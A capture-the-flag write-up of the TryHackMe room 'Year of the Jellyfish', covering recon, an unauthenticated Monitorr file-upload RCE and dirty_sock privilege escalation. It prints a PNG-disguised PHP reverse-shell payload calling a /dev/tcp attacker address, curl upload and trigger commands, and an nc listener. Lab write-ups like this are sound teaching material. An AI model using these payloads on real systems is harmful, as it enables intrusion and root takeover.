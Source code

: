 ```yaml
---
title: Year Of the JellyFish - TryHackMe
author: Vishnu Sudhakaran
date: 2021-09-02 09:30:00 +0530
categories: [TryHackMe]
tags: [ cve, box, privesc, linux, code ]
---
```


![](/assets/img/posts/jellyfish/chall.png)

Room: [https://tryhackme.com/room/yearofthejellyfish](https://tryhackme.com/room/yearofthejellyfish)

This article is about the room Year Of The JellyFish capture the flag created by [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle) on [TryHackMe](https://tryhackme.com/).

This box is part of an OSCP voucher giveaway. The prize is donated by [@q8fawazo](https://twitter.com/q8fawazo).

## Reconnaissance:

You will get a specific IP_Address of this machine, let's start with nmap scan.

```bash
nmap -sC -sV $IP
```

![](/assets/img/posts/jellyfish/nmap.png)

we can see 80, 443 are open, let's open it in browser. We can see port 80 is redirect to [https://robyns-petshop.thm/](https://robyns-petshop.thm/), also nmap detects multiple sub domains, so it will be a VirtualHost.

![](/assets/img/posts/jellyfish/dns.png)

So we need to add IP and Domains to the `/etc/hosts` file.

![](/assets/img/posts/jellyfish/hosts.png)

## Enumeration:

Let's go through the domains,

![](/assets/img/posts/jellyfish/1s.png)

![](/assets/img/posts/jellyfish/beta.png)

![](/assets/img/posts/jellyfish/dev.png)

![](/assets/img/posts/jellyfish/monitorr.png)

I started with `dirb` on [https://robyns-petshop.thm/](https://robyns-petshop.thm/), i got some directories that countains information about themes, plugins, etc.. bad luck :(

![](/assets/img/posts/jellyfish/dirb.png)

The *dev.robyns-petshop.thm* subdomain is appeared to be same as *robyns-petshop.thm*, and from *beta.robyns-petshop* domain nothing got suspicious.

After i visited the `https://monitorr.robyns-petshop.thm/` this something bugs me, and it was open source, there is an login portal on monitorr settings.

![](/assets/img/posts/jellyfish/monlogin.png)

I visited an [GitHub Repo](https://github.com/Monitorr/Monitorr/tree/master/assets/config/_installation/vendor) and found some interesting files.

![](/assets/img/posts/jellyfish/gitre.png)

Going through the source code of `_install.php`, it creates a empty database, after that we can create an account on `login.php`. and its perfectly worked in this server too. After login to monitor settings, there is an image upload option in services-configuration, we can create an reverse shell connection through file upload vulnerability, its has also have mime validation & extension checking, after some failed attempts, i'am able to bypass both with ".png.pHp" extension and get the reverse shell connection.

But when i try to access this room yesterday with this image upload vulnerability, it couldn't worked maybe the room owner fix that vulnerability. So let's go for another vulnerability.

When i search google for monitorr 1.7.6m exploit i got something interesting in [exploit database](https://www.exploit-db.com/exploits/48980).

![](/assets/img/posts/jellyfish/exp.png)

It was (EDB id: 48980) An unauthenticated RCE would be absolutely perfect exploit here.

Let's create a reverse shell payload.

```bash
echo -e $'\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo system("bash -c \'bash -i >& /dev/tcp/10.4.29.202/443 0>&1\'");' > an0n.png.pHp
```

Now we have to upload the reverse shell we created with `curl` command.

```bash
curl -k -F "fileToUpload=@./an0n.png.pHp" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
```

To get the reverse shell.

```bash
curl -k https://monitorr.robyns-petshop.thm/assets/data/usrimg/an0n.png.php
```

Same time set listener on another tab.

```bash
nc -lvp 443
```

![](/assets/img/posts/jellyfish/flag11.png)

We successfully get the reverse shell thorough RCE. The first flag we can obtained from `/var/www/flag1.txt` file.

## Privilege Escalation:

It's time to root the machine. Here i used [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester).

It show us snap version was vulnerable to dirty_sock (CVE-2019–7304) exploit(EDB id: [46362](https://www.exploit-db.com/exploits/46362)). let's move in to /tmp directory.

![](/assets/img/posts/jellyfish/snpve.png)

![](/assets/img/posts/jellyfish/dirt.png)

Then get the exploit from [exploit-db](https://www.exploit-db.com/download/46362) with `wget` command, and give permission.

![](/assets/img/posts/jellyfish/wget.png)

Let's run the exploit, and it successfully exploited the machine!

![](/assets/img/posts/jellyfish/sock.png)

Now we can switch user with `su` command, username will be `dirty_sock` and password will be `dirty_sock`. After that go for sudo su, we will be root.

![](/assets/img/posts/jellyfish/rooot.png)

We can obtain root flag from `/root/root.txt`

### Thank you for reading my writeup! Hope you enjoyed it.
